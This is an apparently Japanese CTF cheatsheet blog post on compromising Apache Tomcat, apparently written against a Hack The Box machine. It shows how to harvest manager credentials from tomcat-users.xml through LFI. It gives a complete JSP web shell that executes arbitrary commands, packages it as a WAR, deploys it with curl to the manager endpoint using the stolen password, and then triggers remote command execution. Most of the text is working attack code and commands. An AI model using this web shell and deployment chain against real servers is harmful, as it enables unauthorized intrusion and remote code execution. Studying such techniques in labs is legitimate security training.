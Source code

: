 ```yaml
---
layout: post
title: "tomcat"
published : true
tags: CTF Common cheatsheet tomcat
---
```

## Tomcatマネージャーアプリケーションの発見
tcp/8080でオープンしていることが多い

## 資格情報の取得
LFIなどを利用して"tomcat-users.xml"を探す。ファイルパスは一例
```sh
/usr/share/tomcat9/etc/tomcat-users.xml

(SNIP...)
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
(SNIP...)
```
## web shellによるRCE
### Create file. [index.jsp]
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
    String s = null;
    try {
      Process p = Runtime.getRuntime().exec(cmd,null,null);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null) {
        output += s+"</br>";
      }
    }  catch(IOException e) {   e.printStackTrace();}
   }
%>
<pre><%=output %></pre>
```
   
### warの生成
```sh
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```
## Upload
```sh
curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
```

### RCE
```sh
http://megahosting.htb:8080/webshell/index.jsp?cmd=id
```